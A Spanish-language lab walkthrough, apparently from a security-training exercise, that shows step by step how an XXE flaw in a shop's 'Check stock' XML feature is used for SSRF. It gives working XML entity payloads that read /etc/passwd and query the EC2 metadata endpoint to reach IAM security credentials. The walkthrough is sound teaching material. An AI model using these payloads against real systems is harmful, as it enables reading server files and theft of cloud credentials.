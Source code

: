 # Lab: Exploiting XXE to perform SSRF attacks

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

## 📝 Introducción

Este laboratorio simula un escenario realista en entornos de nube, donde una aplicación web vulnerable a **XXE** es explotada para realizar un ataque de tipo **SSRF** contra el **endpoint de metadatos de una instancia EC2 de AWS**.

La funcionalidad vulnerable es `Check stock`, la cual acepta entradas en formato XML, las analiza mediante un parser no seguro, y refleja parte del contenido procesado en la respuesta. Esto habilita la inyección de entidades externas (`<!ENTITY>`), que pueden ser utilizadas para hacer que el servidor realice solicitudes HTTP internas arbitrarias.

El servidor tiene habilitado el endpoint de metadatos en `http://169.254.169.254/`, una dirección IP reservada que las instancias EC2 usan para acceder a datos sensibles como credenciales de IAM, configuración de red, o el hostname. Si el servidor permite resolver entidades externas desde esta dirección, un atacante puede extraer credenciales sensibles directamente.

---

### 🎯 Objetivo

Explotar la vulnerabilidad **XXE → SSRF** para acceder al endpoint `http://169.254.169.254/latest/meta-data/iam/security-credentials/` y recuperar la **clave secreta del IAM role** asignado a la instancia, resolviendo así el laboratorio.


Iniciamos el laboratorio y nos encontramos con una aplicación de compras online:
![image](https://github.com/user-attachments/assets/e11d3138-8859-4bfb-b15a-0b72d2b0dd89)

Accedemos al detalle de un producto haciendo click en `View details`:
![image](https://github.com/user-attachments/assets/f8676e22-e348-4666-8e8f-bb4c9ff61c31)

El laboratorio nos habla de una funcionalidad `Check store` que parsea input XML, por lo que accedemos a la funcionalidad `Check store` para analizarla haciendo click en el botón `Check stock`, el cual nos devuelve 108 unidades de stock:
![image](https://github.com/user-attachments/assets/bfd2357c-f5e2-47fb-a189-1cc909c57489)


Al igual que en el laboratorio anterior, estamos enviando información a través de XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```
El servidor responde con 108, lo que indica que interpreta y procesa correctamente el XML enviado.

Indicios:

- El servidor está procesando directamente el contenido XML que el cliente envía, lo cual es el punto de partida para probar inyecciones de entidades externas.

- No hay evidencias de validación ni sanitización del XML.

- Si el servidor usa un parser vulnerable que permite entidades externas, podríamos intentar algo como:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY test "test"> ]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

Enviamos la petición al `Repeater` y vemos cómo se comporta el servidor al enviarle el payload anterior:
![image](https://github.com/user-attachments/assets/3031e57e-bffd-4f0e-a56d-0a4a52b08c02)

En este caso estamos definiendo un `DTD` que contiene una entidad interna `test` con el valor "test".
Aunque en este ejemplo **no estamos utilizando la entidad `&test;` dentro del XML**, esto **sirve como prueba inicial** para verificar si el servidor acepta la inclusión de un `DOCTYPE`. Esto puede revelar si:

- El parser XML está configurado para **procesar DTDs internos**.
- Existen **controles de seguridad que bloqueen la definición de entidades** (por ejemplo, filtros WAF).
- Se producen errores de parsing, lo cual podría indicar una **superficie vulnerable a ataques XXE**.


El siguiente paso es confirmar si el servidor resuelve y expande entidades, por lo que referenciaremos la entidad:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY test "XXE Working"> ]>
<stockCheck>
  <productId>&test;</productId>
  <storeId>1</storeId>
</stockCheck>
```

![image](https://github.com/user-attachments/assets/1140da8b-d780-4aaa-9076-d4c39cb7e114)

El servidor respondió `"Invalid product ID: XXE Working"`, esto prueba que:

- El parser XML aceptó la definición <!ENTITY>.

- La entidad `&test;` fue resuelta correctamente.

- El contenido de la entidad fue inyectado dinámicamente en el valor del productId.

- El servidor reflejó ese valor en la respuesta.

Este es un ejemplo de XXE clásico tipo “data disclosure”, donde un atacante podría en lugar de "XXE Working", ingresar una entidad externa, por ejemplo:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

Analizamos la request en Burp Suite:
![image](https://github.com/user-attachments/assets/4b8b1e99-7d54-4b7e-80e3-db38386875a5)

Esta captura confirma de forma indiscutible que se explotó exitosamente una vulnerabilidad de tipo XML External Entity - File Disclosure.

Este comportamiento muestra:

- Que el parser XML está mal configurado (no tiene desactivado el procesamiento de entidades externas).

- Que no hay validación ni filtrado del contenido XML por parte del backend.

- Que un atacante puede leer archivos arbitrarios del servidor (Local File Disclosure).

Hata ahora la resolución viene siendo idéntica al laboratorio anterior, este es el momento de buscar la explotación de un SSRF como pide el enunciado.

---

### 🌐 Explotación XXE → SSRF

El enunciado del laboratorio nos indica que el servidor tiene acceso al endpoint reservado `http://169.254.169.254/`, típico de instancias EC2 de Amazon Web Services. Este endpoint contiene información sensible, como las credenciales IAM de la máquina.

Vamos a modificar el payload para que en lugar de leer un archivo del sistema (`file:///etc/passwd`), haga una solicitud a este endpoint interno. El objetivo inicial es obtener el nombre del perfil IAM:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

Para llegar a esa ruta podríamos intentar utilizar el siguiente payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

Analizamos la respuesta del servidor, notamos que nos devuelve `latest`:
![image](https://github.com/user-attachments/assets/fd80c448-f166-462b-8b7d-c969593f014e)

Procedemos a dirigirnos a `/latest` y el servidor nos devuelve `meta-data`:
![image](https://github.com/user-attachments/assets/b634059c-619a-43b8-a877-77a313f8560d)

Nos dirigimos a `/latest/meta-data` y el servidor nos responde con `iam`
![image](https://github.com/user-attachments/assets/0d7ee2a4-047d-4ec0-abbb-c3ab6a761b05)

Accedemos a `/latest/meta-data/iam/` y el servidor nos devuelve `security-credentials`:
![image](https://github.com/user-attachments/assets/7948a421-a136-402e-8f71-5a47f1542b29)

Por lo que actualmente nos falta ingresar al endpoint `http://169.254.169.254/latest/meta-data/iam/security-credentials/` que nos devuelve `admin`:
![image](https://github.com/user-attachments/assets/094e06ab-3682-4a98-9b5e-09a3fd60e5c8)

Accedemos al endpoint `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin`:
![image](https://github.com/user-attachments/assets/a600c8b7-208d-4fd3-9f75-72f795f78a73)











